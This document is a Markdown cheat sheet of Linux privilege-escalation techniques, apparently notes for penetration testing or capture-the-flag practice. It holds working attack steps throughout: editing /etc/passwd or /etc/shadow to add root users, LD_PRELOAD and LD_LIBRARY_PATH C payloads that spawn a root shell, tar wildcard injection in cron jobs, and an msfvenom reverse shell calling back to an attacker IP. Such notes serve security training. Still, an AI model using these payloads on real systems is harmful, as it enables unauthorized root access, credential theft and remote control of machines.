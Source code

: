 # Linux Privilege Escalation 

## Tools
1. linpeas.sh
2. Linux Smart Enumeration
3. LinEnum

## Service Exploit
- ```ps aux | grep "^root"``` will show all processes running as root.
- Then try to identify the version number of each processes with:
```bash
<program> --version
<program> -v

# debian
dkpg -l | grep <program>

# rpm
rpm -qa | grep <program>
```
## Port Forwarding
- Run this in the victim machine:
``` ssh -R <local-port>:127.0.0.1:<servnice-port> <username>@<kali-machine>```
- you can use ```netstat -an``` or ```netstat -nl``` to see which port are listening locally. ```mysql``` usually listen on ```3306```
- now you can run services that are listening locally with your kali macchine for example:
```
mysql -u root -h 127.0.0.1 -P 4444
```
## Weak File Permissions

### /etc/shadow
- Example when ```/etc/shadow``` are readable for all, you can get the hash and bruteforce it.
- if ```/etc/shadow``` is writeable you can include your own password with ```mkpasswd -m sha-512 <password>```

### /etc/passwd
- if editing is possible you can attempt to remove the ```x``` from ```root:x:0:0:root:/bin/bash```. This tells linux root has no pw.
- alternatively, you can replace the hash in ```x``` using ```openssl passwd <password>```
- you can append a new row to create another alternative root user ```root2:<hash>:0:0:root2:/bin/bash```

### Backup
- Commmon place to look for backup files include ```/```, ```/tmp```, ```/var/backup```
- You may find ```ssh``` private key from readable ```.ssh``` directory

## Sudo
- Run a program with root using ```sudo <program>```
- Run a program with a specific user using ```sudo -u <username> <program>```
- Usually you will know if you can run program as another user or root through ```sudo -l```
- if you can run root as a user for all program but ```su``` is not available you can run things like
```
sudo -s
sudo -i
sudo /bin/bash
sudo passwd
```
- you can go to GTFObin to see if you can escape to root if there are available sudo program
- even if its not in GTFObin, you can try to abuse its intended use. For example ```sudo /usr/bin/apache2 -f /etc/shadow``` can read the file.

### ENV_RESET

- if this is not set you can change the path and escalate privilege.

### LD_PRELOAD
- will not work if real user id != effective user id
- sudo must be configured to preserve the LD_PRELOAD this can see in ```sudo -l```
- use this script named as ```preload.c```:
``` c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
  unsetenv("LD_PRELOAD");
  setresuid(0,0,0);
  system("/bin/bash -p");
}
```
- compile it ```gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c```
- run ```sudo LD_PRELOAD=/tmp/preload.so find``` to get root

### LD_LIBRARY_PATH
- ```sudo -l``` should state there is LD_LIBRARY_PATH
- run ```ldd /usr/sbin/apache2 #or any program name``` to list the shared library and pick any one.
- use this script called library_path.c
``` c
#include <stdio.h>
#include <stdlib.h>

static void hijack()__attribute__((consstructor));

void hijack() {
  unsetenv("LD_LIBRARY_PATH");
  setresuid(0,0,0);
  system("/bin/bash -p");
}
```
- compile ```gcc -o libcrypt.so.1 -shared -fPIC library_path.c```
- run the program with that library ```sudo LD_LIBRARY_PATH=. apache2```

## Cron jobs 

- crontabs are usually located at ```/var/spool/cron/``` and ```/var/spool/cron/crontabs/```
- system wide crontab is located at ```/etc/crontab```

### File Permission + Cron
- ```cat /etc/crontab```
- check if cron jobs file are writeable ```ls -la```
- edit with reverse shell or bin/sh

### Path Env + Cron
- crontab default path is ```/usr/bin:/bin```
- you can create a file with same name so cron will trigger based on path
- ```cat /etc/crontab``` under ```PATH``` to see the path

### Wildcard + Cron
- if a cron job file as ```*``` and GTFO said you can get a shell you may use this method
- create a reverse shell with msfvenom 
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.23 LPORT=8133 -f elf -o shell.elf
```
- transfer to victim and make it executable
- run
```
touch ./--checkpoint=1
touch ./--checkpoint-action=exec=shell.elf
```
- setup nc and await cronjob.



## Kernel Exploit (Last Resort)
- To enumerate Kernel version ```uname -a```
- Find exploit
- Run (Beware usually is 1 time and will crash system)
- ```Linux exploit suggester 2``` is a good tool to find kernel exploit:
```./linux-exploit-suggester-2.pl -k <kernel version>```

